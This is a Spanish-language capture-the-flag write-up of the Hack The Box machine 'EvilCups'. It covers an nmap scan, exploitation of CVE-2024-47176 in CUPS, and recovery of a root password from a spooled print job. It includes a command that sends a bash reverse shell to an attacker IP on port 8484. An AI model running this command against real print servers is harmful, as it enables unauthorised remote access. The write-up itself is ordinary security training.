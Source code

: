 ```yaml
---

title: Writeup EvilCups
published: True

---
```


* * *

En este writeup, exploramos la máquina **EvilCups** de Hack The Box, donde explotamos múltiples vulnerabilidades para escalar privilegios y comprometer el sistema. Utilizamos técnicas como la **enumeración de servicios expuestos**, la explotación de **vulnerabilidades recientemente publicadas de CUPS**,etc...

**CUPS** es un sistema de impresión utilizado en sistemas operativos UNIX, que permite a los usuarios configurar y gestionar impresoras locales y en red mediante el uso de controladores.

# RECONOCIMIENTO
Realizamos un escaneo con nmap:

	❯ nmap -sCV -v 10.10.11.40 -Pn -T3
	
Como resultado encontramos esto:

  ```ruby
  
  PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 364995038db44c6ea92592af3c9e0666 (ECDSA)
|_  256 9fa4a9391120e096eec49a6928950c60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Y encontramos dos puertos Tcp abiertos.
Vamos a ver que encontramos dentro de el puerto 631.

Aquí encontramos una versión:
![Texto alternativo](/assets/evilcups1.png)
* * *

# Foothold

El foothold en esta máquina es fácil. Vamos a buscar vulnerabilidades en esa versión de CUPS:

Y relacionada con esa versión encontramos un CVE, en concreto este:
	CVE-2024-47176

Asique vamos a proceder a explotarlo.
```js
❯ python3 evilcups.py 10.10.15.127 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.15.127/8484 0>&1'"
```
![Texto alternativo](/assets/EvilCups2.png)

Para conseguir la reverse shell nos metemos dentro de la "impresora" que hemos conseguido crear mediante el exploit, y vamos a seleccionar esta opcion:

![Texto alternativo](/assets/EvilCups3.png)
![Texto alternativo](/assets/EvilCups4.png)

Y ya estaríamos con la reverse shell, listamos el contenido dentro del directorio en el que nos encontramos y encontraríamos la user flag.

Después de estar mirando por la máquina encontré que todos los trabajos de impresión se almacenan en /var/spool/cups

Como no tenemos permisos para listar el contenido, necesitamos saber cual es el siguiente "trabajo"/documento que la impresora que ya existe, para poder listarlo y así descargármelo.

En este caso ese "trabajo" de impresion tiene el nombre d00001-001
En el que significa:

```js
❯ -d: nos indica que es un archivo de datos de impresion
	00001: identifica el primera trabajo ne la cola
	001: especifica la instancia única del trabajo.
```
Todo este nombre se suele deducir a partir de el formato estandar que se utiliza en cups.
Tambien podriamos obtener este nombre realizando varios comandos en la maquina victicma, para ver que trabajos estan en cola como:
```js
	lpstat -o
	ls /var/spool/cups (si tenemos permisos)
	lpq
```
Pués una vez encontrado ese "trabajo" en cola, me lo voy a pasar a mi maquina para pasarlo a pdf y poder leerlo.

Para convertirlo a pdf utilize este comando:

```js
	ps2pdf d00001-001
```

Y dentro de ese archivo que ahora es un pdf encontramos la contraseña de root.
![Texto alternativo](/assets/EvilCups5.png)

Una vez encontrada la contraseña de root vamos a proceder mediante SSH a conectarnos y capturar la rootflag:

![Texto alternativo](/assets/EvilCups6.png)

PWNED!

*Documentación de aporte*

https://www.cups.org/doc/spec-design.html

https://github.com/AxthonyV/CVE-2024-47176
